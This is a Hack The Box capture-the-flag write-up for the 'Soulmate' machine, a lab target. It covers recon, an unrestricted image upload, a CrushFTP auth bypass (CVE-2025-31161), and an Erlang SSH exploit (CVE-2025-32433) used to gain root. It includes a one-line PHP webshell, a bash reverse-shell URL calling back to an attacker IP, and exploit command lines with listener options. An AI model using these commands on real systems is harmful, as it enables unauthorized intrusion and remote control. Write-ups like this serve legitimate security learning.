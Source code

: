 ```yaml
---
layout: post
title: "HTB - Soulmate"
date: 2025-09-08 10:00:00 +0000
locked: true
categories: [writeups]
tags: [htb, soulmate, soulmate htb, htb soulmate, htb soulmate writeup, soulmate htb writeup, linux, web-exploitation, php, file-upload, ssh, crushftp, vulnerability-exploit, privilege-escalation, root-access]
image: "/assets/images/thumbnails/htb/ctf/soulmate/thumbnail.png"
description: "Hacking really is love at first sight"
author: "SoftAndoWetto"
---
```


# Details
```
IP: 10.10.11.86
Difficulty: Easy
Platform: Linux
```
<br><br>

# Recon

The first step is an Nmap scan to see which services are exposed: 
<br>
`nmap -sC -sV 10.10.11.86 -oA Soulmate_NMAP`

```
Nmap scan report for 10.10.11.86
Host is up (0.032s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soulmate.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   30.73 ms 10.10.14.1
2   27.15 ms 10.10.11.86

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep  7 19:48:49 2025 -- 1 IP address (1 host up) scanned in 11.97 seconds
```
<br><br>
And we get port 80 being open, with a redirect to **soulmate.htb** so its time to add that to /etc/hosts

![main webpage](/assets/images/thumbnails/htb/ctf/soulmate/webpage.png)

<br><br>
From there I see the option to make an account with the option to upload a profile picture image.

![Image of account creation](/assets/images/thumbnails/htb/ctf/soulmate/signup.png)

<br><br>
So naturally I open burpsuite and see the post request that its making

![Burpsuite](/assets/images/thumbnails/htb/ctf/soulmate/burpsuite.png)

<br><br>

# Directory and Vhost Discovery

And experiment with uploading things that should be there, and pretty easily find that you can change the content type and upload a PHP file (Keep this in mind for later)

<br>
Then from there i run:
- Feroxbuster to find directories
- ffuf for subdomains and vhosts

![FFUF screenshot](/assets/images/thumbnails/htb/ctf/soulmate/ffuf_vhost.png)

<br><br>
and I find a vhost at
`ftp.soulmate.htb`

So we also add this too /etc/hosts

![CrushFTP Image](/assets/images/thumbnails/htb/ctf/soulmate/ftp_vhost.png)

<br><br>

# CrushFTP Exploit (CVE-2025-31161)

From there we can see that theyre using CrushFTP and although I wasnt able to find out what version, I did come across a recent CVE for this application (CVE-2025-31161) which:

By knowing a valid username (like crushadmin), an attacker can trick the server into logging them in without a password. Once in, they can create a new user with their own password and use that for persistent access.

Then from there I found a [PoC from Immersive Labs](`https://github.com/Immersive-Labs-Sec/CVE-2025-31161`)

`python3 cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user admin --new_user admin --password 'admin'`

<br><br>
Looking around the dashboard, I came across this page

`http://ftp.soulmate.htb/WebInterface/UserManager/index.html`

<br>
In which I was able to give myself permissions to upload to the paths listed there. with /app being the main one here

![File permissions](/assets/images/thumbnails/htb/ctf/soulmate/file_permissions.png)

<br><br>
After looking through /app I was led to `Home -> webProd -> assets -> images -> profiles` and would you know it, this is where the images get uploaded to.
And I am able to access this page, so if I upload 

`<?php system($_GET["cmd"]); ?>`

And access it with

`http://soulmate.htb/assets/images/profiles/Test1.php?cmd=bash+-c+%27bash+-i+%3E%26+/dev/tcp/10.10.14.189/4444+0%3E%261%27`



![Images directory](/assets/images/thumbnails/htb/ctf/soulmate/images_path.png)

<br><br>
`www-data@soulmate:/$` 
<br><br><br>
I get a shell

Now from here during my enumeration I come across

```
www-data@soulmate:~/soulmate.htb/public/assets/images/profiles$ ss -tulnp
ss -tulnp
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                                                 
udp   UNCONN 0      0      127.0.0.53%lo:53         0.0.0.0:*                                                           
tcp   LISTEN 0      4096       127.0.0.1:8443       0.0.0.0:*                                                           
tcp   LISTEN 0      5          127.0.0.1:2222       0.0.0.0:*                                                           
tcp   LISTEN 0      4096         0.0.0.0:4369       0.0.0.0:*                                                           
tcp   LISTEN 0      128        127.0.0.1:33161      0.0.0.0:*                                                           
tcp   LISTEN 0      511          0.0.0.0:80         0.0.0.0:*    users:(("nginx",pid=1125,fd=8),("nginx",pid=1124,fd=8))
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*                                                           
tcp   LISTEN 0      4096       127.0.0.1:9090       0.0.0.0:*                                                           
tcp   LISTEN 0      4096       127.0.0.1:42495      0.0.0.0:*                                                           
tcp   LISTEN 0      4096   127.0.0.53%lo:53         0.0.0.0:*                                                           
tcp   LISTEN 0      4096       127.0.0.1:8080       0.0.0.0:*                                                           
tcp   LISTEN 0      4096            [::]:4369          [::]:*                                                           
tcp   LISTEN 0      511             [::]:80            [::]:*    users:(("nginx",pid=1125,fd=9),("nginx",pid=1124,fd=9))
tcp   LISTEN 0      128             [::]:22            [::]:*                                                           
www-data@soulmate:~/soulmate.htb/public/assets/images/profiles$ nc 127.0.0.1 2222  
<tb/public/assets/images/profiles$ nc 127.0.0.1 2222            
SSH-2.0-Erlang/5.2.9
```

<br><br>
With an ssh server running locally on port 2222
I searched for vulnerabilities affecting Erlang SSH.

`https://github.com/omer-efe-curkus/CVE-2025-32433-Erlang-OTP-SSH-RCE-PoC/blob/main/cve-2025-32433.py`

`python3 cve-2025-32433.py 127.0.0.1 -p 2222 --shell --lhost 10.10.14.189 --lport 6666`

```
whoami
root
```

<br><br>
and we're done! (I promise you this isnt a TTY, I didnt just write this)

<br>

# Conclusion / TL;DR

- **Recon**: Nmap revealed SSH (22) and HTTP (80) with a redirect to soulmate.htb.
<br><br>

- **Web app**: Account creation with an insecure image upload allowed PHP files.
<br><br>

- **Discovery**: ffuf found ftp.soulmate.htb, running CrushFTP.
<br><br>

- **Exploit**: Used CVE-2025-31161 to bypass auth and create my own account.
<br><br>

- **Persistence**: Granted myself upload permissions and dropped a PHP webshell.
<br><br>

- **Enumeration**: Found Erlang SSH running on localhost port 2222.
<br><br>

- **Privilege Escalation**: Exploited CVE-2025-32433 to gain root access.